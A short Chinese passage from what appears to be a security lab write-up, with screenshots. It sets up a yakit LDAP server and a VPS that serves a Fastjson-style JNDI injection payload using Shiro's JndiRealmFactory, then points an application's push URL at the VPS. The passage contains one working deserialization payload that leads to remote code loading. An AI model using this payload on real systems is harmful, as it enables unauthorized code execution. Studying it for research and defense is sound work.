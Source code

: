 先删掉好了

[![](assets/1709022863-5ff0415cb83fc0a49ec5c9356a263a05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191105-bbccee54-d497-1.png)

现在环境就 OK 了，我们使用 yakit 起一个`ldap`服务

[![](assets/1709022863-b3b2f8b2cc2ed075bb1d22577f14cc13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191124-c7306bcc-d497-1.png)

接着 vps 起一个 web 服务返回 payload

```bash
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://127.0.0.1:8085/uRKFmZXL"], "Realms":[""]}
```

可以用 python，我是直接用的宝塔

接着就百度推送地址改成我们 vps 地址就 ok
